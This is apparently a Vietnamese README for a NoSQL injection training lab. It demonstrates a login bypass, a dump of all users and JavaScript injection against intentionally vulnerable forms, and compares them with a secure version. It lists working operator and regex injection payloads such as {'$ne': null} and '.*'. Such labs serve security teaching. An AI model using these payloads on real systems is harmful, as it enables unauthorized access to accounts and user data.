 
## 🎯 TEST NGAY 3 ATTACKS

### ⚡ Attack 1: Bypass Login (10 giây)
1. Vào form "Vulnerable Login"
2. Username: `{"$ne": null}`
3. Password: `{"$ne": null}`
4. Click Login
5. ✅ Đăng nhập thành công với quyền admin!

### ⚡ Attack 2: Dump Users (5 giây)
1. Vào form "Vulnerable Search"
2. Search: `.*`
3. Click Search
4. ✅ Hiển thị tất cả 5 users!

### ⚡ Attack 3: JS Injection (5 giây)
1. Vào form "Check Username"
2. Username: `'; return true; //`
3. Click Check
4. ✅ Bypass logic check!

---

## 🛡️ SO SÁNH: VULNERABLE vs SECURE

### Test Vulnerable
- Input: `{"$ne": null}`
- Kết quả: ✅ Bypass thành công

### Test Secure  
- Input: `{"$ne": null}`
- Kết quả: ❌ "Invalid input format"

---

## 📊 CÁC PAYLOADS CẦN NHỚ

### Authentication Bypass
```json
{"$ne": null}
{"$ne": ""}
{"$gt": ""}
{"$regex": ".*"}
```

### Regex Injection
```
.*          (match all)
^admin      (starts with admin)
^a          (starts with a)
```
